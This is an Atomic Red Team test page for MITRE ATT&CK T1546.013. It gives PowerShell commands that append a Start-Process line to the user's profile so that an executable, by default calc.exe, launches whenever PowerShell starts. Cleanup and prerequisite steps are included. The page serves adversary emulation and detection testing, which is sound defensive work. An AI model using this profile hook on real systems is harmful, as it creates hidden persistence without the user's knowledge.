 ```yaml
---
tags: [T1546_013, atomic_test]
filename: "[[T1546.013 - Event Triggered Execution- PowerShell Profile]]"
---
```

# T1546.013 - Event Triggered Execution: PowerShell Profile

## Atomic Test #1 - Append malicious start-process cmdlet
Appends a start process cmdlet to the current user's powershell profile pofile that points to a malicious executable. Upon execution, calc.exe will be launched.

**Supported Platforms:** Windows


**auto_generated_guid:** 090e5aa5-32b6-473b-a49b-21e843a56896





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| exe_path | Path the malicious executable | path | calc.exe|
| ps_profile | Powershell profile to use | string | $profile|


#### Attack Commands: Run with `powershell`! 


```powershell
Add-Content #{ps_profile} -Value ""
Add-Content #{ps_profile} -Value "Start-Process #{exe_path}"
powershell -Command exit
```

#### Cleanup Commands:
```powershell
$oldprofile = cat $profile | Select-Object -skiplast 1
Set-Content $profile -Value $oldprofile
```



#### Dependencies:  Run with `powershell`!
##### Description: Ensure a powershell profile exists for the current user
##### Check Prereq Commands:
```powershell
if (Test-Path #{ps_profile}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Path #{ps_profile} -Type File -Force
```




<br/>
